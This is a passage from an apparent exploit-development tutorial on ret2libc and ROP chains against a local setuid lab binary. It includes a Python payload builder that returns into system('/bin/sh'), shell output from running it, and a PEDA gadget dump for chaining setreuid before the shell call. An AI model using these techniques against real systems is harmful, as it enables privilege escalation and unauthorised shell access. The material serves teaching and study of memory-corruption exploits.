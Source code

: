 So we have an offset for system, exit and our `/bin/sh` string.  Now we just need to construct our ROP chain from all this:

```python
import struct

libc_base = 0xb7e0a000
system = libc_base + 0x0003ada0
exit = libc_base + 0x0002e9d0
binsh_string = libc_base + 0x15ba0b

rop  = 'A'*140
rop += struct.pack('<L',system)
rop += struct.pack('<L',exit)
rop += struct.pack('<L', binsh_string)
print rop
```
Passing it into our setuid binary, and we're returned a shell:
```bash
ubuntu@ubuntu:~/Desktop/bof3$ (python bof.py; cat) | ./bof
id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

You'll notice however that we aren't returned an escalated shell!  We're still running as user ubuntu despite running a setuid executable owned by root.  This comes down to effective-uid vs uid again. 

Chained ret2libc
-------------------
Sometimes it's not enough to just call one function, we'll have to chain multiple functions together to achieve our desired result.  We'll just use the `setreuid` function and then spawn a shell to set our effective uid, but then how do we call another function with arguments after?

Once our function is called we're returned to the next function we want to call, but we need to clear out the list of arguments to the last function if we want to call another one with arguments.  

Binaries contain a number of useful snippets of code, which end in a `ret` instruction.  We can use these to clear the stack and adjust it before calling another function.  These are known as gadgets, and we can use PEDA to dump some useful gadgets.

```
gdb-peda$ ropgadget
ret = 0x80482b2
popret = 0x80482c9
pop3ret = 0x80484b9
pop2ret = 0x80484ba
pop4ret = 0x80484b8
addesp_12 = 0x80482c6
addesp_16 = 0x8048375
 ```

`popret` instructions are simply a sequence of `pop` instructions followed by a `ret`.  Remember that pop instruction increment `esp` and therefore can be considered to be removing an item from the stack.  If we return into one of these gadgets it will adjust the stack pointer each time, removing the arguments we placed in prior, and then return into the next value we've placed on the stack.  

